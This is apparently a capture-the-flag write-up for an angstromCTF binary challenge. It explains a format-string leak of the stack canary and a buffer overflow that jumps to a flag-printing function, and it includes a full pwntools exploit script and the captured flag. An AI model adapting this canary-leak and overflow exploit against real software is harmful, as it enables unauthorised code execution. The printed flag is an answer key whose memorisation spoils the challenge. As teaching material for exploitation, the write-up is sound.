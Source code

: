 The main just call `wake()` function (which print stuff) and the call `greet()`:

![img/canary_0.png](img/canary_0.png)

First input is print format string bug. So we can leak the canary.
The length of the second input is not checked. We know the print flag function is at 0x0000000000400787.
So we can use 2nd input to oveflow (overwriting the canary right).


Exploit:
```python
from pwn import *
import struct

fs = "%17$lx"

flag = 0x0000000000400787
p = remote('shell.actf.co', 20701)

print((p.recvuntil('name? ')).decode())
p.sendline(fs.encode())
buf = (p.recvuntil('!\n').decode())
print(buf)
canary = (int((buf.split()[4].split('!')[0]), 16))
print((canary))
print(p.recvuntil('? ').decode())
payload = (("A"*56).encode())
payload += struct.pack("<Q", canary)
payload += (("A"*8).encode())
payload += struct.pack("Q", flag)

'''
payload += struct.pack("<Q", pop_rdi)
payload += struct.pack("<Q", cat_flag)
payload += struct.pack("<Q", system_plt)
'''
p.sendline(payload)
p.interactive()
```

# FLAG
```
actf{youre_a_canary_killer_>:(}
```
